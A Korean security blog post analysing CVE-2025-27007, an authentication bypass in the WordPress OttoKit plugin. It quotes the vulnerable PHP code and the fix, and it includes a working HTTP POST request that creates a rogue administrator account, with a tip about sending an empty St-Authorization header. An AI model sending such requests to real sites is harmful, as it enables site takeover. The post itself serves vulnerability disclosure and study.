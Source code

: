 ```yaml
---
title: "[하루한줄] CVE-2025-27007: WordPress OttoKit 플러그인의 Privilege Escalation 취약점"
author: pwndorei
tags: [OttoKit, WordPress, Privilege Escalation, pwndorei]
categories: [1day1line]
date: 2025-05-18 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://patchstack.com/articles/additional-critical-ottokit-formerly-suretriggers-vulnerability-patched

## Target

- OttoKit (구 SureTriggers) ≤ v1.0.82

## Explain

WordPress의 데이터 자동화‧연동 플러그인 OttoKit에서 인증을 우회해 WordPress 관리자 계정을 생성할 수 있는 권한 상승 취약점이 발견되었습니다. 아래는 취약점이 존재하는 `create_wp_connection` 함수의 코드입니다.

```php
public function create_wp_connection( $request ) {

	$user_agent = $request->get_header( 'user-agent' );
	if ( 'OttoKit' !== $user_agent && 'SureTriggers' !== $user_agent ) {
		return new WP_REST_Response(
			[
				'success' => false,
				'data'    => 'Unauthorized',
			],
			403
		);
	}
	$params = $request->get_json_params();

	$username = isset( $params['wp-username'] ) ? sanitize_text_field( $params['wp-username'] ) : '';
	$password = isset( $params['wp-password'] ) ? $params['wp-password'] : '';

	if ( empty( $username ) || empty( $password ) ) {
		return new WP_REST_Response(
			[
				'success' => false,
				'data'    => 'Username and password are required.',
			],
			400
		);
	}

	$user = wp_authenticate_application_password( null, $username, $password );//[1]

	if ( is_wp_error( $user ) ) {
		return new WP_REST_Response(
			[
				'success' => false,
				'data'    => 'Invalid username or password.',
			],
			403
		);
	}

	$connection_status = $request->get_param( 'connection-status' );
	$access_key        = $request->get_param( 'sure-triggers-access-key' );
	$connected_email   = $request->get_param( 'connected_email' );

	if ( false === $connection_status ) {
		$access_key = 'connection-denied';
	}
	
	$connected_email_id = isset( $connected_email ) ? sanitize_email( wp_unslash( $connected_email ) ) : '';

	if ( isset( $access_key ) ) {
		SaasApiToken::save( $access_key );
	}
	OptionController::set_option( 'connected_email_key', $connected_email_id );

	return new WP_REST_Response(
		[
			'success' => true,
			'data'    => 'Connected successfully.',
		],
		200
	);
}
```

이 함수에서는 `wp_authenticate_application_password` 함수(`[1]`)를 통해 사용자 인증을 시도하고 `is_wp_error`로 해당 함수의 반환값 `$user`를 사용자 인증이 성공적이었는지 실패(에러)인지 검사합니다. 

하지만 아래의 패치된 코드를 보면 `is_wp_error`가 아니라 `$user`가 `WP_User`의 인스턴스인지 확인하는 방식으로 사용자 인증 성공 여부를 확인하도록 변경된 것을 볼 수 있습니다. 따라서 `is_wp_error`를 사용하던 기존 방식에 문제가 있었다는 것을 알 수 있습니다.

![image.png](2025-05-18/image.png)

이를 악용하면 관리자의 username만 아는 공격자가 임의의 password와 access key로 연결을 생성하고 `/wp-json/sure-triggers/v1/automation/action` 엔드포인트에 요청을 보내서 새로운 관리자 계정을 생성할 수 있습니다.

```
POST /wp-json/sure-triggers/v1/automation/action HTTP/1.1
Host: victim.blog
Content-Type: application/x-www-form-urlencoded
St-Authorization:

selected_options[user_name]=pwned_admin&
selected_options[user_email]=evil@hacker.tld&
selected_options[password]=S3cureP@ss!&
selected_options[role]=administrator&
aintegration=WordPress&
type_event=create_user_if_not_exists
```

또한 플러그인이 설치된 직후의 상태처럼 secret_key가 설정되어 있지 않은 경우에는 위처럼 `St-Authorization` 헤더에 빈 값을 넣게 되면 아예 인증과정을 우회하고 관리자 계정을 생성하는 것이  가능했습니다.